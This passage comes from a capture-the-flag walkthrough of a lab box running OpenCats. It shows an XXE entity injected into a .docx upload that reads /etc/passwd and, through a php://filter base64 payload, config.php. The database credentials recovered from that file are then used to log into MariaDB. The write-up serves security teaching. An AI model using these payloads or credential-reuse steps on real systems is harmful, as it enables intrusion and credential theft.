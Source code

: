 Once you edit and add the entity, now we need to zip it again.

```
⛩\> zip resume.docx word/document.xml
updating: word/document.xml
        zip warning: Local Entry CRC does not match CD: word/document.xml
 (deflated 60%)
```

Ignore the warning. Proceed to upload this docx file.

# Initial Access

<img width="1920" height="773" alt="image" src="https://github.com/user-attachments/assets/f40dfce1-2e52-464b-8504-1f5be0393617" />
(https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/A38E2D1C-F4ED-4936-B7ED-FDDE1AEA3BC8_2/Screen%20Shot%202021-09-20%20at%2003.57.46.png)

As you can see, we got the ‘passwd’ file information. Let’s read the ‘config’ file of OpenCats application. Use below entity to convert the ‘config.php’ file content to base64.

`<!DOCTYPE xxe [<!ENTITY xxe SYSTEM ‘`[`php://filter/convert.base64-encode/resource=config.php`](php://filter/convert.base64-encode/resource=config.php)`'>]>`

<img width="1920" height="767" alt="image" src="https://github.com/user-attachments/assets/3ff2b498-54d8-4877-bd41-9e8759787500" />
(https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/4B6E1482-9840-4DBB-BD22-017485ADF856_2/Screen%20Shot%202021-09-20%20at%2004.06.46.png)

As you can see, we got the encoded text. Now we need to decode it.

<img width="2032" height="1090" alt="image" src="https://github.com/user-attachments/assets/b11f6574-0e33-4417-aefe-d9a585ee193e" />
(https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/5ECB9823-44A6-4BF6-B5D2-93AA5CC7303A_2/Screen%20Shot%202021-09-20%20at%2004.08.00.png)

We got DB credentials from the config file. Let’s access Mysql using these creds.

```
⛩\> mysql -h empline.thm -u james -p -D opencats -A
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 94
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and s.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [opencats]> describe user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |

--------SNIP------
```
